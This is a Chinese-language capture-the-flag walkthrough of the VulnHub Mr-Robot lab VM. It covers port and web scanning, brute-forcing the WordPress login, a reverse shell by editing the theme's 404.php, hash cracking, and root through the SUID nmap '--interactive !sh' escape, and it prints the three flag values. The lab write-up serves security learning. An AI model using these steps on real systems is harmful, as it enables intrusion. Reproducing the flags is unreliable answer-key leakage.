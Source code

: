 # Mr-Robot：1

下载地址

```
https://download.vulnhub.com/mrrobot/mrRobot.ova
```

## 实战操作

靶机扫描地址：`192.168.32.169`。

![image-20220715095522855](../../.gitbook/assets/image-20220715095522855-1675840086321922.png)

对靶机进行端口扫描

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.169                                                                                                                                                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 21:55 EDT
Nmap scan report for 192.168.32.169
Host is up (0.00030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 00:0C:29:DC:72:F4 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 106.71 seconds

```

访问80端口网站是动画。

![image-20220715095913509](../../.gitbook/assets/image-20220715095913509-1675840086321923.png)

扫描80端口

```
┌──(root💀kali)-[~/Desktop]
└─# nikto -h http://192.168.32.169
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.32.169
+ Target Hostname:    192.168.32.169
+ Target Port:        80
+ Start Time:         2022-07-14 21:58:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in 
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See htt
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.32.169/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7915 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2022-07-14 22:01:02 (GMT-4) (150 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

目录爆破

![image-20220715100325269](../../.gitbook/assets/image-20220715100325269-1675840086321925.png)

发现文件：`robots.txt`。

![image-20220715095959357](../../.gitbook/assets/image-20220715095959357-1675840086321924.png)

下载这两个文件，其中`key-1-of-3.txt`是一个加密字符串，`fsocity.dic`是一个字典，我猜这是我们以后必须使用的东西。

```
073403c8a58a1f80d943455fb30724b9
```

有许多不同的工具能够暴力破解 Web 应用程序，而 Burp Suite 对于这项任务可能有点矫枉过正。但是，我知道如何使用 Burp 并且发现它非常直观，所以我将坚持我所知道的。开启代理后，我将捕获登录请求并将其发送给入侵者。在那里，我将清除现有位置并将我自己的位置添加到日志参数中。

然后，我将 fsociety.dic 文件加载到有效负载中并开始攻击 很快我们就可以看到用户 Elliot 的响应长度与其余响应的长度不同。这表明被发回的错误消息与其他用户的错误消息不同。

![image-20220715101808986](../../.gitbook/assets/image-20220715101808986-1675840086321926.png)

爆破wordpress登录密码

```
[!] Valid Combinations Found:                                                                                        
 | Username: Elliot, Password: ER28-0652                                                                             
                                                                                                                     
[!] No WPScan API Token given, as a result vulnerability data has not been output.                                   
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register                
                                                                                                                     
[+] Finished: Thu Jul 14 22:58:31 2022                                                                               
[+] Requests Done: 1889                                                                                              
[+] Cached Requests: 6                                                                                               
[+] Data Sent: 634.845 KB                                                                                            
[+] Data Received: 176.135 MB                                                                                        
[+] Memory used: 376.395 MB                                                                                          
[+] Elapsed time: 00:37:43      
```

登录wordpress

![image-20220715151518007](../../.gitbook/assets/image-20220715151518007-1675840086321927.png)

修改404.php

> https://192.168.32.169/wp-admin/theme-editor.php

![image-20220715152217583](../../.gitbook/assets/image-20220715152217583-1675840086321928.png)

nc反弹成功，找到一个hash

```
$ cat pass*
robot:c3fcd3d76192e4007dfb496cca67e13b
```

![image-20220715152257306](../../.gitbook/assets/image-20220715152257306-1675840086321929.png)

去网上查找hash的值密码，`abcdefghijklmnopqrstuvwxyz`

![image-20220715152440777](../../.gitbook/assets/image-20220715152440777-1675840086321930.png)

```
$ python -c 'import pty; pty.spawn("/bin/bash")'        
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```

查看key.txt

```
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat ke*  
cat ke*
822c73956184f694993bede3eb39f959
```

但是无法破解

![image-20220715152712996](../../.gitbook/assets/image-20220715152712996-1675840086321931.png)

查看SUID的程序

```
robot@linux:~$ find / -u=s --perm 2>/dev/null
find / -u=s --perm 2>/dev/null
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

使用nmap进行提权

```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root      
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key*
cat key*
04787ddef27c3dee1ee161b21670b4e4
# cat fi*
cat fi*
# cat firstboot_done
cat firstboot_done
# 
```
